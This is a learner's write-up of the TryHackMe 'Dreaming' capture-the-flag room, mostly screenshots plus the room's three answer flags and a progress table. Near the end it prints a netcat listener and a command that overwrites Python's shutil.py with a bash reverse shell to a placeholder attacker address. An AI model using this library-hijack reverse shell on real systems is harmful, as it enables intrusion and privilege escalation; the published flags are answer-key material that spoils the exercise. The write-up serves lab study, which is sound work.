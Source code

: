 <p align="center">November 6, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{184}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Dreaming &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}}$$
</h1>
<p align="center">Solve the riddle that dreams have woven..</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/dreaming">Dreaming</a>.</p><br>
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/2114a0d6-560b-450b-b9f8-b1c32ac26b31">
  <img height="150px" src="https://github.com/user-attachments/assets/11edef91-195e-4208-8842-540dc9f815a7">
</p>

<p align="center">Summary</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; [Recover the Kingdom](#1) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Lucien](#2) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Death](#3) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [Morpheus](#4) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp;[Room Complete](#5) &nbsp;&nbsp;&nbsp;&nbsp;▪️&nbsp;&nbsp;&nbsp;&nbsp; [My journey](#6)

<br>
<br>
<br>
<h2>Task 1. Recover the Kingdom!<a id='1'></a></h2>

<br>
<p align="center">While the king of dreams was imprisoned, his home fell into ruins.<br>
Can you help Sandman restore his kingdom?</p>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>
<br>

> 1.1. <em>What is the Lucien Flag?</em><br><a id='2'></a>
>> <code><strong>THM{TH3_L1BR4R14N}</strong></code><br><br>

![image](https://github.com/user-attachments/assets/945cfe84-11f9-4d2e-adc8-fad3517b53d5)

![image](https://github.com/user-attachments/assets/b8c64acc-2668-46a0-84b2-1d15153e9ee1)

![image](https://github.com/user-attachments/assets/de8228e9-719f-458d-8c8f-b9a8d5c15d6d)

![image](https://github.com/user-attachments/assets/2b5e28c1-8fd3-420c-ab82-994a99532912)

![image](https://github.com/user-attachments/assets/03fdc172-fe9b-4796-ad14-89081f20c26e)

![image](https://github.com/user-attachments/assets/93b7add1-dbea-4e30-85c2-914c6b668d0b)

![image](https://github.com/user-attachments/assets/4aa48bcd-c36b-4ac5-a444-80a367181e5e)

![image](https://github.com/user-attachments/assets/5b9b0f23-23ac-4d12-a40a-c8fde951bd5f)

![image](https://github.com/user-attachments/assets/4b54b416-69e5-450c-bcec-9eda43cc28af)

![image](https://github.com/user-attachments/assets/44113164-40a7-456b-9fa0-f4700e4274ad)

![image](https://github.com/user-attachments/assets/4916b5a7-3f68-4ecb-900a-5ccc5f8256df)

![image](https://github.com/user-attachments/assets/5f0c0caa-c3a5-4263-94c1-628fc4e21f52)

![image](https://github.com/user-attachments/assets/ef719f69-c44b-41c9-b924-0792bf395c89)

![image](https://github.com/user-attachments/assets/68ebeebf-a4b1-4ee6-b62e-cd46858709fb)

![image](https://github.com/user-attachments/assets/7a143b4b-b679-47a3-9476-6bef6154842e)

![image](https://github.com/user-attachments/assets/88d5c838-399a-4a75-b21a-c9379215446f)

![image](https://github.com/user-attachments/assets/bfc77dee-c990-4d95-aab1-4488f4e836ff)

![image](https://github.com/user-attachments/assets/e44ca9b7-59bf-4b7f-bf69-c47d6525c5b7)

![image](https://github.com/user-attachments/assets/10767471-a71d-4e7f-bd8d-0ce627954d51)

![image](https://github.com/user-attachments/assets/08068aa8-3285-4123-ba7f-1d9ee548864c)

![image](https://github.com/user-attachments/assets/ab445633-5bb1-499a-b4df-2585a8905614)

![image](https://github.com/user-attachments/assets/f966bd82-4c8d-4a2d-9781-6afd46a0deb9)

![image](https://github.com/user-attachments/assets/dd40f283-5fba-4cbf-9a14-a41ef2b6e667)

![image](https://github.com/user-attachments/assets/e56cf1dc-16b6-4094-8152-ed84c3217782)

![image](https://github.com/user-attachments/assets/9b2b716f-ff1d-4708-b720-0e9f588ee91a)

![image](https://github.com/user-attachments/assets/ff2800c1-b5a2-4fb4-9c22-c8668e93a5ce)

![image](https://github.com/user-attachments/assets/329bd066-9a0d-42ac-bb8c-453e4f2758d2)

<br>

> 1.2. <em>What is the Death Flag?</em><br><a id='3'></a>
>> <code><strong>THM{1M_TH3R3_4_TH3M}</strong></code><br>

![image](https://github.com/user-attachments/assets/d52108f7-5b85-4f33-bbff-b8a3531fedc1)

![image](https://github.com/user-attachments/assets/1a7c3741-413f-4da3-8a97-e92cb3e38dd1)

![image](https://github.com/user-attachments/assets/31a9264b-9048-43fa-b964-59b3a6ab0453)

![image](https://github.com/user-attachments/assets/01f82d3d-2bbf-4870-affa-a96585586b63)

<br>

![image](https://github.com/user-attachments/assets/50ccdd15-8b50-40c4-b983-b96c45d38839)

<br>

> 1.3. <em>What is the Morpheus Flag?</em><br><a id='4'></a>
>> <code><strong>THM{DR34MS_5H4P3_TH3_W0RLD}</strong></code><br><br>

![image](https://github.com/user-attachments/assets/5a6ca1d3-4b61-490c-9980-f36731e6a87f)

<br>

<pre><code>$ find / type f -group morpheus 2>dev/null
</code></pre>

<br>

<pre><code>root@ip-[Attack_IP]:~/Dreaming# nc -nvlp 4444
</code></pre>

<br>

<pre><code>death@dreaming:/$ echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/[Attack_IP]/[Attack_Port] 0>&1'\")" > /usr/lib/python3.8/shutil.py
</code></pre>

<br>

![image](https://github.com/user-attachments/assets/41d937b6-954f-42af-a92b-fee86b4d44e0)

<br>

![image](https://github.com/user-attachments/assets/bec30477-f483-4659-b661-c99c7a98d18a)




<h2>Room Complete<a id='5'></a></h2>
<p>Keep learning, keep growing!<br>



<h2>My Journey<a id='6'></a></h2>
<p></p>Following I share the status of my journey in TryHackMe.</p>

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     |
| :---------------: | :------- | :----------- | :----------- | :---------- | :--------- | :------  | :-------- |
|                   |          | WorldWide    | Brazil       | WorldWide   | Brazil     |          | Completed |
| November 6, 2024  | 184      |       1,297ª |          28ª |      4,428ª |        65ª | 53,700   |       402 |


<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>

